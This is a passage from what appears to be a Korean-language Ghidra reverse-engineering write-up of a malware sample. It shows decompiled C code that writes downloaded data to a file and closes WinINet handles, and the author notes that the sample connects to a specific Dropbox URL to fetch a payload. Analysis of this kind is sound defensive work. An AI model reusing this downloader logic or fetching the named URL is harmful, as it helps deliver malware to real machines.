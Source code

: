 ```c
            }
            if (!bVar2) break;
            (*WriteFile_addr)(local_48,local_3c,local_64,&local_60,0);
          }
          hModule = GetModuleHandleW(L"wininet.dll");
          InternetCloseHandle_addr = GetProcAddress(hModule,"InternetCloseHandle");
          CloseHandle(local_48);
          (*InternetCloseHandle_addr)(local_18);
          (*InternetCloseHandle_addr)(hConnect);
          (*InternetCloseHandle_addr)(hInternet);
          uVar3 = 1;
        }
      }
    }
  }
  return uVar3;
}
```

함수가 많이 기네요... 위에서부터 내려가 봅시다.

![](ghidra_part4/Untitled%2019.png)

`HttpOpenRequestW`를 통해 `dl.dropboxusercontent.com/s/uzu60whrglspnyy/ATAPIConfiguration`에 연결합니다.

![](ghidra_part4/Untitled%2020.png)
